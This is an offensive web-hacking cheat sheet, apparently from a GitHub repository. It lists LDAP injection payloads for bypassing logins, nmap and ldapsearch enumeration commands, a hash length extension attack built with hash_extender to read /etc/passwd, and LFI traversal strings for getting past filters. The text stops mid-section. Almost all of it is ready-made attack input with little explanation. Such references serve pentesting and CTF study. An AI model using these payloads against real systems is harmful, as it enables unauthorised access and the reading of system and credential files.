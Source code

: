 ## LDAP Web Exploitation
### LDAP Injection - Bypass Login

```$filter = "(&(uid=$username)(userPassword=$password))";```  

```
https://site.com/admin.php?username=*&password=*
```  
or  
```
https://site.com/admin.php?username=admin)(userPassword=*))%00&password=blabla
```  

-> Other

```
https://site.com/item?objectClass=*
```  
```
(&(sn=administrator)(password=*))
```  
```
*))%00
```  

### LDAP Query
```
nmap -p 389,636 --script ldap-* <ip>
```  
or  
```
ldapsearch -x -H ldap://ip -D "cn=<cn>,dc=<dc>,dc=<dc>" -w <password>  -s base namingcontexts  
ldapsearch -x -H ldap://ip -D "cn=<cn>,dc=<dc>,dc=<dc>" -w <password>  -b "dc=<dc>,dc=<dc>
```
https://github.com/dinigalab/ldapsearch

### Docs
https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html  
https://book.hacktricks.xyz/pentesting-web/ldap-injection
  
## Hash Length Extension Attack

-> Identify  
https://site.com/index.php?file=oktest&hash=hash

-> Exploitation  
1-  
```
./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out
```
https://github.com/iagox86/hash_extender  

2-  
burp intruder -> payloads.out in file parameter.  

## Local File Inclusion (LFI)
### Replace ../ - Bypass
$language = str_replace('../', '', $_GET['file']);  
```
/....//....//....//....//etc/passwd  
..././..././..././..././etc/paswd  
....\/....\/....\/....\/etc/passwd 
```

### Block . and / - Bypass
```